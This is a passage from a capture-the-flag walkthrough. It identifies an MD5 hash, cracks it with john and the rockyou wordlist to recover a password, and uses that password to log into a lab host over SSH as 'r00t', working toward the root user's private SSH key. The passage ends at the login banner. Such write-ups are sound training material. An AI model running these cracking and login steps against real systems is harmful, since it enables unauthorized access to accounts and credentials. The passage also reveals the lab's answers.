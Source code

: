 * Let's use `hash-identifier` to identify the hash type.

```
$ hash-identifier f357a0c52799563c7c7b76c1e7543a32                     
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

* We can now crack the hash using `john`.

```
$ john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
n100906             (?)     
1g 0:00:00:00 DONE (2023-12-08 21:44) 5.000g/s 862080p/s 862080c/s 862080C/s erinbear..eagames
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

### Answer

```
n100906
```

##

## Task 4: The root of all evil

### What are the first 9 characters of the root user's private SSH key?

* We can try logging in through SSH using the `r00t` user and `n100906` password.

```
$ ssh r00t@10.10.26.63             
r00t@10.10.26.63's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 10 10:15:49 UTC 2023

  System load:  0.04               Processes:           102
  Usage of /:   24.4% of 19.56GB   Users logged in:     0
  Memory usage: 73%                IP address for eth0: 10.10.26.63
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

1 package can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```